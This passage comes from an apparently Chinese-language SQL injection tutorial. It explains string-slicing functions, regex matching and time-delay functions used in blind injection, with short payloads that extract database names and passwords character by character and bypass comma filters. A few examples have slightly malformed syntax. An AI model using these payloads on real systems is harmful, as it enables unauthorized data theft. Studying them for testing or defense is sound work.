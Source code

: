 `substring(str, pos, len)`：从 pos 位置开始，截取字符串 str 的 len 长度

`substring(str from pos for length)` ：可以用在过滤了 `,` 的情况

注意：pos 从 1 开始

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>id=1 and if(ord(substr(database(),1,1))=116,1,0)%23<br>select substring(database(), from 1 for 1)<br>select substring(database(), 0, 1)<br>``` |

**mid 函数**

`mid(str, pos, length)`

`mid(str from pos for length)`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```sql<br>select mid(database(), from 1 for 1)<br>select mid(database(), 1, 1)<br>``` |

**left 函数**

从左开始截取字符串

`left(str, len)`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select left(database(), 1)<br>``` |

**right 函数**

从右开始截取字符串

`right(str, len)`

**利用正则表达式逐位匹配**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```sql<br>select * from wp_user_ where password rlike "^1"<br>select * from wp_user_ where password REGEXP "^1"<br>select * from wp_user_ where password REGEXP "^12"<br>...<br>``` |

#### [](#524-%E5%BB%B6%E6%97%B6%E5%87%BD%E6%95%B0)5.2.4 延时函数

`sleep(n)`：程序挂起 n 秒

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>if(ascii(substr(database() from 0))=97, sleep(3),0)<br>``` |

`benchmark(count, sha(1))`：执行 sha(1) 函数 count 次达到延时的目的

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>SELECT BENCHMARK(10000000, sha(1))<br>``` |
